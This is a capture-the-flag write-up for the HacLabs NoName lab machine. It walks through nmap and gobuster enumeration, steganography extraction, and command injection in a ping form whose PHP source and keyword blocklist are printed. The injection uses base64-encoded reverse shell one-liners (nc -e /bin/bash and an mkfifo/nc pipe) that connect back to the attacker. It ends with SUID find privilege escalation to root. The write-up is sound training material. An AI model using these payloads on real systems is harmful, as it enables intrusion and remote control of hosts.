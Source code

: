```yaml
---
layout: default
title : muzec - Haclabs NoName Writeup
---
```



### Enumeration With Nmap

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
┌──(muzec㉿Muzec-Security)-[~/Documents/PG/NoName]
└─$ cat nmap.nmap
# Nmap 7.91 scan initiated Sun Jun 20 11:56:14 2021 as: nmap -sC -sV -oA nmap 192.168.197.15
Nmap scan report for 192.168.197.15
Host is up (0.33s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 20 11:57:26 2021 -- 1 IP address (1 host up) scanned in 71.42 seconds
```

### Web Enumeration On Port 80

Since we have only Port 80 open we know our focus is only on HTTP enumeration now let try to access the IP on our browser to see what we have running between it running apache webserver.

![image](https://user-images.githubusercontent.com/69868171/127360225-7d1315e3-232f-44c7-a6b0-97a1cddf3a50.png)

Just a fake ping form so let try to brute force some directories with `Gobuster` .

```
┌──(muzec㉿Muzec-Security)-[~/Documents/PG/NoName]
└─$ gobuster dir -u http://192.168.127.15/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html,bak,sh,pl,cgi,zip
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.127.15/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html,bak,sh,pl,cgi,zip
[+] Timeout:                 10s
===============================================================
2021/07/28 14:27:53 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 201]
/admin                (Status: 200) [Size: 417]
```

So we Navigate to that directory `http://IP/admin` a page with HacLabs directory of gallery.

![image](https://user-images.githubusercontent.com/69868171/127361236-22530148-fb90-4e5b-8905-1d488ee00838.png)

Let try checking the source code.

![image](https://user-images.githubusercontent.com/69868171/127361319-dabae405-0db8-4751-9b93-970701d78187.png)

Going through the source code we find the following comment at the last line: `<!--passphrase:harder-->` now what to do since we have some images let try using `staghide` on them all with the password.

### Steganography

Using `steghide` with the image `haclabs.jpeg` and the passphrase we discover a new directory `superadmin.php`

```
┌──(muzec㉿Muzec-Security)-[~/Documents/PG/NoName]
└─$ steghide info haclabs.jpeg
"haclabs.jpeg":
  format: jpeg
  capacity: 577.0 Byte
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "imp.txt":
    size: 21.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

Extracting

```
┌──(muzec㉿Muzec-Security)-[~/Documents/PG/NoName]
└─$ steghide extract -sf haclabs.jpeg                                                                                                                              1 ⨯
Enter passphrase: 
the file "imp.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "imp.txt".
```

![image](https://user-images.githubusercontent.com/69868171/127362758-8d675e11-c166-437b-ae4a-bd2c074912cd.png)


### Exploitation Command Injection On Ping Form

I was able to execute some command using `127.0.0.1 | id` but when i try getting a reverse shell i got nothing so i try reading the `superadmin.php` code.

```
127.0.0.1 | cat superadmin.php
```

![image](https://user-images.githubusercontent.com/69868171/127363188-5c896656-b342-484c-8259-2dbd2551408e.png)

Source code Below;

```
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
```

We can some of the commands are blocked it keep getting fliter but seems we can bypass it.

### Reverse Shell


```
nc.traditional -e /bin/bash IP Port
```

OR

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP Port >/tmp/f
```


I will be trying the two payloads.


![image](https://user-images.githubusercontent.com/69868171/127364061-a605aa8e-9318-47c1-a98e-5cd97c858ed2.png)

So we encode it to base64 also let start our `ncat` listener.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/PG/NoName]
└─$ sudo nc -nvlp 443
[sudo] password for muzec: 
listening on [any] 443 ...
```

```
127.0.0.1 | echo bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNDkuMjA5IDQ0Mw== | base64 -d | bash
```

```
┌──(muzec㉿Muzec-Security)-[~/Documents/PG/NoName]
└─$ sudo nc -nvlp 443
[sudo] password for muzec: 
listening on [any] 443 ...
connect to [192.168.49.209] from (UNKNOWN) [192.168.209.15] 57488
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We have shell cool right now let try the second payload.

```
127.0.0.1 |  echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC40OS4yMDkgODAgPi90bXAvZg== | base64 -d | bash
```

![image](https://user-images.githubusercontent.com/69868171/127364733-820b109b-0341-49bb-b18e-751ea5b7b94c.png)

We have also shell with it now let spawn a TTY shell and root the box.

```
python3 -c 'import pty; pty.spawn ("/bin/bash")'
```

### Privilege Escalation


![image](https://user-images.githubusercontent.com/69868171/127364994-a9408a4e-c3a1-49fe-a6d9-3201b111b4bf.png)

```
sudo -l
```
We go nothing so let try checking for SUID permission with `find / -perm -u=s -type f 2>/dev/null` .

```
www-data@haclabs:/var/www/html$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/snapd/snap-confine   
/usr/lib/openssh/ssh-keysign  
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper               
/usr/lib/policykit-1/polkit-agent-helper-1 
/usr/sbin/pppd                                                                     
/usr/bin/pkexec              
/usr/bin/find              
/usr/bin/gpasswd          
/usr/bin/chfn           
/usr/bin/chsh               
/usr/bin/arping               
/usr/bin/passwd               
/usr/bin/traceroute6.iputils     
/usr/bin/sudo                   
/usr/bin/newgrp                 
/snap/core/8689/bin/mount     
/snap/core/8689/bin/ping                                                           
/snap/core/8689/bin/ping6    
```

We have find on SUID cool that our way to root.


```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

![image](https://user-images.githubusercontent.com/69868171/127365867-d031720c-5149-4acc-adec-eead3ce588c6.png)


We are root and done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
